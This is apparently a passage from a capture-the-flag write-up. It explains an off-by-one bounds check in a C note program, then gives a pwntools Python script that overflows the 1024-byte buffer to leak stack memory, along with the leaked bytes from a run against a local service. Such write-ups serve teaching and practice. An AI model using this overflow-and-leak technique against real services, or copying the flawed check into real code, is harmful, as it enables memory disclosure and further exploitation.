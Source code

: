 ```c
// prevent user to write over the buffer's note
if (index > BUFFER_SIZE) {
    exit(1);
}
```

This means we can overflow by writing 1024 bytes and then copy some data.

```c
// copy part of the buffer to the end 
memcpy(&note[index], &note[offset], copy_size);
```

### Overflowing buffer & leaking stack

We can simply overflow the buffer and leak the stack by writing 1024-bytes to the buffer and then use copy to overflow. Using show note, we can then print the entire overflowed buffer.

```python
# Leak stack
def leak_stack():
    io = startup()
    clear()
    log.info("Stage 1 - Leaking addresses from stack")
    # Overflow
    [write_note(io, "A"*255) for x in range(4)] #4x255 = 1020
    write_note(io, "A"*4) #1020+4 = 1024
    copy_note(io, 1024, 255) # Copy the next 255 bytes after the buffer (leak stack)
    stack = show_note(io, 1024+255)[1024:] # Leak stack (everything after the 1024 bytes of junk)
    io.close()
    clear()
    return filter_stack(stack)
```

Using this function, we can leak the stack. Output of `print(show_note(io, 1024+255)[1024:]))` below).

```python
root@darkness:~# python3 exploit.py 
[+] Opening connection to localhost on port 5001: Done
[*] Stage 1 - Leaking addresses from stack
[+] Receiving all data: Done (1.25KB)
[*] Closed connection to localhost port 5001
b'\xb0\xae\xcd\xcd\xfd\x7f\x00\x00\x00`hX\xd7\\M\xc0\xb0\xae\xcd\xcd\xfd\x7f\x00\x00To\xa0\x1e\xdaU\x00\x00\x98\xaf\xcd\xcd\xfd\x7f\x00\x00\xc0Z\x82\x19\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x01\x00\x00\x00\x03\x00\x00\x00\x89\x13\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x02\x00\x13\x89\x7f\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x85D\x7f\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00'
```
